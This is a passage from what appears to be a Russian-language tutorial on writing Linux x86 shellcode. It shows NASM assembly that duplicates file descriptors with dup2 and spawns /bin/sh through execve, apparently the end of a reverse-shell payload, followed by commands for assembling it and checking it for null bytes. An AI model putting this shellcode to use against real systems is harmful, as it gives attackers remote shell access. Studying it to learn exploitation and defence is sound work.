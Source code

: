 ```nasm
dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup

  ; spawn /bin/sh using execve
  ; int execve(const char *filename, char 
  ; *const argv[],char *const envp[]);
  mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
  inc  ecx         ; argv=0
  mov  edx, ecx    ; envp=0
  push edx         ; terminating NULL
  push 0x68732f2f   ; "hs//"
  push 0x6e69622f   ; "nib/"
  mov  ebx, esp    ; save pointer to filename
  int  0x80        ; syscall: exec sys_execve
```

### тестирование

Теперь, как и в первой части, соберем код и проверим его работоспособность, а также убедимся, что он не содержит нулевых байтов:
```bash
nasm -f elf32 -o rev.o rev.asm
ld -m elf_i386 -o rev rev.o
objdump -M intel -d rev
```

![compile shellcode](./images/14/2021-10-16_13-53.png){width="80%"}       
